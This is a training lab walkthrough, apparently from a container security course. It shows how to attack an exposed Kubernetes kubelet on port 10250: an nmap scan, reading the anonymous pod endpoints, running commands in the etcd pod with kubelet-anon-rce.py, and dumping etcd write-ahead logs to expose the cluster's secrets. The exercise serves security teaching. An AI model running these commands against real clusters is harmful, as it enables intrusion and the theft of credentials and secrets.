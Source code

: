 # **Attacking a K8s Kubelet**

### * *

-------

#### Step 1:

* Navigate to the `Kubelet Attack` directory on the provisioned server.

```
cd /root/container_training/Kubernetes/Kubelet-Attack
```

* Create a few secrets on the k8s cluster

```commandline
kubectl create ns secret

kubectl create -f secrets.yml

kubectl -n secret get secrets
```

### *Our objective is to compromise the `kubelet`, and steal all configs and secrets by gaining access to `etcd`.*

-------

#### Step 2:

* Fetch the IP of the provisioned server

```commandline
serverip
```

* Run an Nmap Scan on the provisioned server to get the list of port and services.

```commandline
# We're running scan against a single port to save some time, but this might take a while
nmap <IP> -sV -p 10250
```

-------

#### Step 3:

* Once it's identified that port `10250` is open, try accessing the following URLs on the browser and observe the results

```commandline
https://<serverip>:10250/metrics

https://<serverip>:10250/pods

https://<serverip>:10250/runningpods/
```

* Fetch the `etcd` pod name from the list of running pods

* Using [`kubelet-anon-rce.py`](https://github.com/serain/kubelet-anon-rce), let's gain access to the `etcd` pod and run a few commands.

```commandline
python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "ls /"

python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "ls /etc/kubernetes/pki/etcd/"

python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "ls /var/lib/etcd/member/wal/"
```

-------

#### Step 4:

* From the `etcd` pod, let's dump all the data!

```commandline
python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "strings /var/lib/etcd/member/wal/0000000000000000-0000000000000000.wal" >> etcd_dump1.txt

python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "strings /var/lib/etcd/member/wal/0000000000000001-00000000000102aa.wal" >> etcd_dump2.txt
```

### *It can be observed that all data is stored in plain text!!*

---------

### Reading Material/References:


